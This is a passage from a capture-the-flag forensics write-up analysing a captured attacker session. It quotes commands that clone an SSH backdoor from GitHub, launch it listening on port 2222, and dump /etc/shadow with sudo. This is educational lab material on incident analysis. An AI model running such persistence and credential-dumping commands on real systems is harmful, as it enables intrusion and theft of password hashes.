 ```
Unpacking objects:  72% (13/18)   
Unpacking objects:  77% (14/18)   
Unpacking objects:  83% (15/18)   
Unpacking objects:  88% (16/18)   
Unpacking objects:  94% (17/18)   
Unpacking objects: 100% (18/18)   
Unpacking objects: 100% (18/18), done.
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

So the attacker established persistence with `git clone https://github.com/NinjaJc01/ssh-backdoor`


### Using the fasttrack wordlist, how many of the system passwords were crackable?
Like already written before, the attacker printed out the _/etc/shadow_:
```
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
```